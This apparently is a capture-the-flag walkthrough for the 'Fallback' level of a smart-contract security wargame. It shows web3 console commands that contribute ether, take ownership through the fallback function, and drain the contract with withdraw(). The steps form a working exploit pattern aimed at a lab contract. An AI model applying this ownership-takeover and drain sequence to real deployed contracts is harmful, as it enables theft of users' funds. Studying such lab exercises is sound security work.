 # Level 1 - Fallback

The goal of this level is to trigger the get all the ether stored in the contract. In order to do this you need to become the contract owner. In order to become the owner you must trigger the fallback method. The fallback method has a requirement that whoever calls it needs to have some contributions already in the contract and also have just contributions during the triggering of the fallback.


```
await contract.contribute({value: web3.toWei(0.0001, "ether")})
await contract.owner() //see who current owner is
web3.eth.sendTransaction({from:player, to:instance, value:web3.toWei(0.0001, "ether"), data: web3.sha3("foobar()").slice(0,10)}, x => console.log(x)) //Called non-existing function (outside of ABI with ETH)
await contract.owner() //confirm you are owner
player //address should match above
await contract.withdraw() // done

```
Done, now you just need to submit the instance.